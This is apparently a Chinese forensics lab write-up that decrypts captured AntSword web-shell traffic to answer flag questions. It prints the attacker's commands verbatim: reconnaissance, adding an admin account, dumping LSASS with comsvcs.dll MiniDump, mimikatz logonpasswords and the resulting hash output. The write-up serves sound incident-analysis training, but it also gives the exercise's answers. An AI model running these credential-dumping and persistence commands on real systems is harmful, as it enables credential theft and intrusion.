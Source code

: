 # 第六章-流量特征分析-蚂蚁爱上树

  
  
&lt;!--more--&gt;  
## 0x00 环境分析  
```txt  
1. 管理员Admin账号的密码是什么？  
2. LSASS.exe的程序进程ID是多少？  
3. 用户WIN101的密码是什么?  
```  
## 0x01  
`/onlineshop/product2.php`蚁剑马，对流量进行解密  
```bash  
cd /d &#34;C:/phpStudy/PHPTutorial/WWW/onlineshop&#34;&amp;ls&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;dir&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;whoami&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;whoami /priv&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;systeminfo&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;dir c:\&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;dir c:\temp&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;net user&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;net localgroup administrators&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;net group &#34;domain group&#34; /domain&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;net group &#34;domain admins&#34; /domain&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;net view&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;net share&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;rundll32.exe comsvcs.dll, MiniDump 852 C:\Temp\OnlineShopBackup.zip full&amp;echo [S]&amp;cd&amp;echo [E]  
cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;net localgroup administrators admin /add&amp;echo [S]&amp;cd&amp;echo [E]  
```  
1、管理员Admin账号的密码是什么？  
`cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;net user admin Password1 /add&amp;echo [S]&amp;cd&amp;echo [E]`  
根据上面流量，得到是`Password1`  
`flag{Password1}`  
2、LSASS.exe的程序进程ID是多少？  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406011906565.png)
解密流量得到  
`cd /d &#34;C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop&#34;&amp;rundll32.exe comsvcs.dll, MiniDump 852 C:\Temp\OnlineShopBackup.zip full&amp;echo [S]&amp;cd&amp;echo [E]`  
https://zhuanlan.zhihu.com/p/346022067  
其中  
`rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump pid lsass.dmp full&#34;`  
`flag{852}`  
3、用户WIN101的密码是什么?  
下载上面得到的lsass进程  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406011924805.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406011924281.png)
在这里进行了文件读取的操作，将回显下载下来  
选择原始数据进行导出  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406012001733.png)
删除前面多余的字符便是正常的 dmp 文件  
利用`mimikatz`进行解密  
`sekurlsa::minidump lsass.dmp`  
`sekurlsa::logonpasswords`  
```cmd  
SID               : S-1-5-21-3374851086-947483859-3378876003-1103  
        msv :  
         [00000003] Primary  
         * Username : win101  
         * Domain   : VULNTARGET  
         * NTLM     : 282d975e35846022476068ab5a3d72df  
         * SHA1     : bc9ecca8d006d8152bd51db558221a0540c9d604  
         * DPAPI    : 8d6103509e746ac0ed9641f7c21d7cf7  
        tspkg :  
        wdigest :  
         * Username : win101  
         * Domain   : VULNTARGET  
         * Password : (null)  
        kerberos :  
         * Username : win101  
         * Domain   : VULNTARGET.COM  
         * Password : (null)  
        ssp :  
        credman :  
        cloudap :  
  
Authentication Id : 0 ; 995 (00000000:000003e3)  
Session           : Service from 0  
User Name         : IUSR  
Domain            : NT AUTHORITY  
Logon Server      : (null)  
Logon Time        : 2023/10/19 11:26:36  
SID               : S-1-5-17  
```  
解密一下`NTLM`  
得到密码  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406012004146.png)
`flag{admin#123}`  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E7%AC%AC%E5%85%AD%E7%AB%A0-%E6%B5%81%E9%87%8F%E7%89%B9%E5%BE%81%E5%88%86%E6%9E%90-%E8%9A%82%E8%9A%81%E7%88%B1%E4%B8%8A%E6%A0%91/  

